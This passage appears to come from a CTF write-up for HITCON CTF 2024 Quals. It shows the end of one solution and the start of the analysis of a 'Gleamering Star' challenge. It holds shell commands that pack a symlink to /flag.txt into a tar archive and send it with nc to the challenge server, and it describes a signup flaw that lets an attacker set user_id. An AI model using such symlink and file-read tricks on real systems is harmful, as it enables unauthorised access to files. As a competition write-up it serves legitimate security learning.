 
```text
$ touch a b
$ ln -s /flag.txt flag.txt
$ tar cf exploit.tar a b flag.txt
```


![Untitled.png](/assets/post/hitcon-ctf-2024-quals/c8eeb02e-aafc-45c3-abf8-2ad66f122591.png)


(I used 010editor and [this template](https://github.com/reox/010editor-templates/blob/ba485d3524de17960d5326b1832f90a94cbb18e8/TARTemplate.bt).)


```text
$ (cat exploit.tar | base64 | tr -d '\n' && echo ) | nc -v flagreader.chal.hitconctf.com 22222
```


As a side note, I initially thought it was GNU tar and was trying to solve the problem that way. With GNU tar, you can use base64 notation for numbers, so you could bypass it by setting something like "+AAAA" for mtime.


## Gleamering Star(crypto, web 360pts)


This was a challenge to steal the flag from a TODO management app with encryption features, created using the Gleam language.


### Problem Analysis


The source code was divided into three projects:

1. gleaming_light: A frontend server that generates and returns HTML. It calls gleaming_star as an API server. **It runs on Deno Runtime.** Users directly access this.
2. gleaming_star: An API server responsible for data persistence and encryption. It runs on BEAM.
3. gleaming_hope: A library used by gleaming_light and gleaming_star.

![gleaming_star.svg](/assets/post/hitcon-ctf-2024-quals/74890e71-0f7e-4da5-bb15-4613fe4aba9b.svg)


The following two types of data are persisted in the database (sqlite3):

- Users (users) with important columns:
	- id
		- Generated by AUTO INCREMENT
	- user_id
		- A separate integer from id. Set as a random number up to 100000 in the frontend. **Can be set to any value by directly sending a request during signup.**
- Items (items) with important columns:
	- id
		- Generated by AUTO INCREMENT
	- item_id
		- An integer used when retrieving posts. If not encrypted, it's the same as id. If encrypted, it's set to id + user_id + authorization_key (a secret value set from environment variables).
